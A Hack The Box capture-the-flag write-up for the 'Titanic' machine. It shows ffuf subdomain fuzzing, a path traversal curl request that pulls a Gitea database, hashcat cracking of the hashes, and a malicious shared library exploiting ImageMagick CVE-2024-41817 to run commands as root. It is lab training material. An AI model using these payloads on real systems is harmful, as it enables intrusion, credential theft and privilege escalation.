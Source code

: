 +++
title = "HTB - Titanic"
date = "2025-04-20"
author = "dax"
cover = ""
tags = ["flask", "gitea", "path-traversal", "hashcat", "magick", "CVE-2024-41817"]
keywords = ["hacking", "htb", "titanic", "hack the box"]
description = "Write-up of Hack The Box easy machine Titanic"
showFullContent = false
readingTime = true
hideComments = false
color = "green"
+++

# HTB - Titanic
## Enumeration:
Nmap
```bash
# Nmap 7.95 scan initiated Thu Apr 17 19:38:46 2025 as: /usr/lib/nmap/nmap -v -p - -Pn -T4 -A -oN nmaptcp titanic.htb
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-favicon: Unknown favicon MD5: 79E1E0A79A613646F473CFEDA9E231F1
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
|_http-title: Titanic - Book Your Ship Trip
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
Aggressive OS guesses: Linux 4.15 - 5.19 (98%), Linux 5.0 - 5.14 (94%), Linux 3.2 - 4.14 (94%), Linux 4.15 (94%), Linux 2.6.32 - 3.10 (93%), Linux 5.0 (93%), OpenWrt 21.02 (Linux 5.4) (93%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (93%), Linux 2.6.32 (92%), Linux 5.10 - 5.15 (92%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 37.829 days (since Mon Mar 10 23:45:24 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   19.48 ms 10.10.14.1
2   19.94 ms titanic.htb (10.10.11.55)

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 17 19:39:18 2025 -- 1 IP address (1 host up) scanned in 32.02 seconds
```

## User exploit

When visiting web port 80, we can see an application that allows us to book boat tickets. By brute forcing the `Host` header, we can also find a `dev.titanic.htb` subdomain. 

```bash
ffuf -u http://titanic.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.titanic.htb' -fs 300-350
```

The `dev` subdomain leads us to a `Gitea` server, which is a self-hosted Github like server. We are able to create an account and find two public repositories owned by the `developer` account. The first one, `flask-app`, contains the code of the boat ticket booking app. By looking at `app.py`, we can see a clear path traversal vulnerability in the `/download` endpoint. 

```python
@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404
```

The second one, `docker-config`, contains `docker-compose.yml` files for both `Gitea` and `mysql`. While there are credentials in the `mysql` configuration, what we are actually looking for is the path where the data directory is mounted in the `Gitea` container. 

```yaml
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```

Now, we can do a little bit of recon on the Gitea file system by running the container locally. The first thing that comes up when we are accessing the configuration page is the default path for the SQLite database, `/data/gitea/gitea.db`. 

```bash
# Start an instance of Gitea for recon
docker run -p 3000:3000 -d --rm gitea/gitea
```

![](/img/htb/titanic/gitea_configuration.png)

Armed with this information, we can now go to the app and exploit the path traversal vulnerability to recover the database. 

```bash
curl --path-as-is -s -H $'Host: titanic.htb' $'http://titanic.htb/download?ticket=../../../../../../../home/developer/gitea/data/gitea/gitea.db' > gitea.db
```

In the `user` table, we can find the hashes for the `administrator` and `developer` users. However, they're not in a format that can be cracked by `hashcat` yet. We can use `Gitea To Hash Extractor` to convert them so that `hashcat` can crack them. The output format is `PBKDF2-HMAC-SHA256`, which is mode `10900`. 

```bash
python gitea_hash_extractor.py gitea.db
```

```batch
hashcat.exe -m 10900 titanic.hashes rockyou.txt
```

We successfully crack the hash for `developer`, which allows us to login using SSH and get the `user.txt` flag. 

## Root exploit

By doing some quick manual recon on the host, we can see a peculiar script in `/opt/scripts/identify_images.sh`. 

```bash
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

By having a look inside the `/opt/app/static/assets/images` directory, we can see that the `metadata.log` file is owned by `root` and is updated every minute. Additionally, the `magick` version installed (7.1.1-35) has a CVE (CVE-2024-41817) for an arbitrary code execution. These two findings combined allows us the elevate or privileges to the root user by crafting a malicious shared library containing a command to execute, placing it in the folder where `magick` is executed and waiting for the `root` user to start the script. There are multiple ways of getting the flag from there, but I did it in 2 steps: first I copied the flag out of `/root/`, and then I changed the permission for me to read it. 

CVE-2024-41817 exploits a vulnerability in the way the `AppImage` version of `ImageMagick` sets the `LD_LIBRARY_PATH` and `MAGICK_CONFIGURE_PATH` environment variables. When those environment variables are not set explicitly, an empty path is prepended (and appended), which might lead to `magick` loading the configuration file (delegates.xml) or shared libraries from the current working directory. 

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt /dev/shm/.dax/root.txt");
    exit(0);
}
EOF

cp /dev/shm/.dax/libxcb.so.1 /opt/app/static/assets/images

# Wait a minute for the script to execute...

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod 777 /dev/shm/.dax/root.txt");
    exit(0);
}
EOF

cp /dev/shm/.dax/libxcb.so.1 /opt/app/static/assets/images

# Wait another minute for the script to execute...

cat /dev/shm/.dax/root.txt
```

## Resources:

| Hyperlink                                                                          | Info                                                         |
| ---------------------------------------------------------------------------------- | ------------------------------------------------------------ |
| https://github.com/BhattJayD/giteatohashcat                                        | Gitea To Hash Extractor                                      |
| https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8 | Arbitrary Code Execution in `AppImage` version `ImageMagick` |
| https://github.com/go-gitea/gitea                                                  | Gitea                                                        |
| https://github.com/pallets/flask                                                   | Flask                                                        |
| https://github.com/hashcat/hashcat                                                 | hashcat                                                      |
| https://github.com/ffuf/ffuf                                                       | ffuf                                                         |
